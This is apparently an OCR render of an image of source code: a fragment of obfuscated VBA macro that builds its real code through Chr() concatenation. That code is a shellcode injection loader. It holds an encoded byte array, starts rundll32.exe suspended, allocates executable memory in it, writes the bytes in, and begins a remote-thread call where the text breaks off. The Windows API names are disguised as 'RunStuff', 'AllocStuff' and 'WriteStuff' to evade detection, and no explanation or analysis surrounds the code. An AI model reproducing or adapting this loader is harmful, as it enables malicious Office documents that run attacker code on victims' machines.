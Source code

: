 ```vba
Chr(44)&Chr(45)&"116"&Chr(44)&Chr(45)&"15"&Chr(44)&Chr(45)&"124"&Chr(44)&Chr(45)&"37"&Chr(44)&"110"&Chr(44)&Chr(45)&"109"&Chr(44)&Chr(45)&"112"&Chr(44)&Chr(45)&"117"&Chr(44)&Chr(45)&"26"&Chr(44)&"97"&Chr(44)& _ 
Chr(45)&"91"&Chr(44)&"42"&Chr(44)&"76"&Chr(44)&Chr(45)&"20"&Chr(44)&"67"&Chr(44)&"70"&Chr(44)&Chr(45)&"94"&Chr(44)&Chr(45)&"72"&Chr(44)&Chr(45)&"36"&Chr(44)&Chr(45)&"1"&Chr(44)&"91"&Chr(44)&Chr(45)&"31"& _ 
Chr(44)&Chr(45)&"105"&Chr(44)&Chr(45)&"98"&Chr(44)&Chr(45)&"92"&Chr(44)&"60"&Chr(44)&Chr(45)&"46"&Chr(44)&Chr(45)&"95"&Chr(44)&"47"&Chr(44)&Chr(45)&"76"&Chr(44)&"34"&Chr(44)&"111"&Chr(44)&Chr(45)&"40"&Chr(44)& _ 
Chr(45)&"67"&Chr(44)&"48"&Chr(44)&Chr(45)&"104"&Chr(44)&Chr(45)&"65"&Chr(44)&"61"&Chr(44)&Chr(45)&"55"&Chr(44)&"89"&Chr(44)&"42"&Chr(44)&"61"&Chr(44)&Chr(45)&"93"&Chr(44)&"93"&Chr(44)&Chr(45)&"4"&Chr(44)& _ 
"106"&Chr(44)&"91"&Chr(44)&"92"&Chr(44)&Chr(45)&"39"&Chr(44)&"92"&Chr(44)&Chr(45)&"60"&Chr(44)&Chr(45)&"97"&Chr(44)&"12"&Chr(44)&Chr(45)&"33"&Chr(44)&"3"&Chr(44)&"95"&Chr(44)&Chr(45)&"47"&Chr(44)&Chr(45)& _ 
"23"&Chr(44)&"120"&Chr(44)&"86"&Chr(44)&"71"&Chr(44)&"85"&Chr(44)&"23"&Chr(44)&Chr(45)&"105"&Chr(44)&Chr(45)&"121"&Chr(44)&"85"&Chr(44)&Chr(45)&"25"&Chr(44)&Chr(45)&"63"&Chr(44)&Chr(45)&"51"&Chr(44)&"85"& _ 
Chr(44)&Chr(45)&"113"&Chr(44)&Chr(45)&"75"&Chr(44)&Chr(45)&"75"&Chr(44)&"6"&Chr(44)&Chr(45)&"86"&Chr(44)&Chr(45)&"71"&Chr(44)&"99"&Chr(44)&"59"&Chr(44)&"103"&Chr(44)&"44"&Chr(44)&Chr(45)&"116"&Chr(44)&"109"& _ 
Chr(44)&Chr(45)&"37"&Chr(44)&Chr(45)&"25"&Chr(44)&Chr(45)&"28"&Chr(44)&Chr(45)&"109"&Chr(44)&"2"&Chr(44)&Chr(45)&"49"&Chr(44)&Chr(45)&"86"&Chr(44)&"108"&Chr(44)&"97"&Chr(44)&"83"&Chr(44)&Chr(45)&"84"&Chr(44)& _ 
Chr(45)&"110"&Chr(44)&Chr(45)&"9"&Chr(44)&"124"&Chr(44)&"21"&Chr(44)&Chr(45)&"6"&Chr(44)&"7"&Chr(44)&"61"&Chr(44)&Chr(45)&"91"&Chr(44)&Chr(45)&"6"&Chr(44)&"109"&Chr(44)&Chr(45)&"67"&Chr(44)&Chr(45)&"11"& _ 
Chr(44)&Chr(45)&"110"&Chr(44)&"122"&Chr(44)&Chr(45)&"110"&Chr(44)&Chr(45)&"6"&Chr(44)&"82"&Chr(44)&Chr(45)&"126"&Chr(44)&"57"&Chr(44)&"83"&Chr(44)&Chr(45)&"6"&Chr(44)&"9"&Chr(44)&Chr(45)&"84"&Chr(44)&"17"& _ 
Chr(44)&Chr(45)&"101"&Chr(44)&"14"&Chr(44)&Chr(45)&"27"&Chr(44)&Chr(45)&"12"&Chr(44)&"5"&Chr(44)&"14"&Chr(44)&"10"&Chr(44)&"45"&Chr(44)&Chr(45)&"74"&Chr(44)&"117"&Chr(44)&"95"&Chr(44)&Chr(45)&"46"&Chr(44)& _ 
"55"&Chr(44)&Chr(45)&"118"&Chr(44)&Chr(45)&"119"&Chr(44)&Chr(45)&"73"&Chr(44)&"56"&Chr(44)&Chr(45)&"118"&Chr(44)&Chr(45)&"75"&Chr(44)&Chr(45)&"55"&Chr(44)&"5"&Chr(44)&"92"&Chr(44)&Chr(45)&"116"&Chr(44)&Chr(45)& _ 
"65"&Chr(44)&"72"&Chr(44)&"92"&Chr(44)&Chr(45)&"85"&Chr(44)&Chr(45)&"80"&Chr(44)&Chr(45)&"1"&Chr(44)&Chr(45)&"63"&Chr(44)&Chr(45)&"102"&Chr(44)&"90"&Chr(44)&Chr(45)&"1"&Chr(44)&"86"&Chr(44)&Chr(45)&"36"&Chr(44)& _ 
"78"&Chr(41)&Chr(10)&"    If L"&"en"&Chr(40)&"Environ"&Chr(40)&Chr(34)& _
"ProgramW"&"6432"&Chr(34)&Chr(41)&Chr(41)&" "&Chr(62)&" 0 Then"&Chr(10)&"        "&"sProc "&Chr(61)&" Environ"&Chr(40)&Chr(34)&"windir"&Chr(34)&Chr(41)&" "&Chr(38)&" "&Chr(34)&Chr(92)&Chr(92)&"SysWOW64"& _
Chr(92)&Chr(92)&"rundll32"&Chr(46)&"exe"&Chr(34)&Chr(10)&"    Else"&Chr(10)&"        "&"sProc "&Chr(61)&" Environ"&Chr(40)&Chr(34)&"windir"&Chr(34)&Chr(41)&" "&Chr(38)&" "&Chr(34)&Chr(92)&Chr(92)&"System32"& _
Chr(92)&Chr(92)&"rundll32"&Chr(46)&"exe"&Chr(34)&Chr(10)&"    End "&"If"&Chr(10)&Chr(10)&"    res "&Chr(61)&" RunStuf"&"f"&Chr(40)&"sNull"&Chr(44)&" sProc"&Chr(44)&" ByVal 0"&Chr(38)&Chr(44)&" ByVal 0"& _
Chr(38)&Chr(44)&" ByVal 1"&Chr(38)&Chr(44)&" ByVal 4"&Chr(38)&Chr(44)&" ByVal 0"&Chr(38)&Chr(44)&" sNull"&Chr(44)&" sInfo"&Chr(44)&" pInfo"&Chr(41)&Chr(10)&Chr(10)&"    rwxp"&"age "&Chr(61)&" AllocSt"& _
"uff"&Chr(40)&"pInfo"&Chr(46)&"hProcess"&Chr(44)&" 0"&Chr(44)&" UBound"&Chr(40)&"myArray"&Chr(41)&Chr(44)&" "&Chr(38)&"H1000"&Chr(44)&" "&Chr(38)&"H40"&Chr(41)&Chr(10)&"    For "&"offset "&Chr(61)&" LBound"& _
Chr(40)&"myArray"&Chr(41)&" To UBou"&"nd"&Chr(40)&"myArray"&Chr(41)&Chr(10)&"        "&"myByte "&Chr(61)&" myArray"&Chr(40)&"offset"&Chr(41)&Chr(10)&"        "&"res "&Chr(61)&" WriteSt"&"uff"&Chr(40)&"pInfo"& _
Chr(46)&"hProcess"&Chr(44)&" rwxpage"&" "&Chr(43)&" offset"&Chr(44)&" myByte"&Chr(44)&" 1"&Chr(44)&" ByVal 0"&Chr(38)&Chr(41)&Chr(10)&"    Next"&" offset"&Chr(10)&"    res "&Chr(61)&" CreateS"&"tuff"&Chr(40)& _
```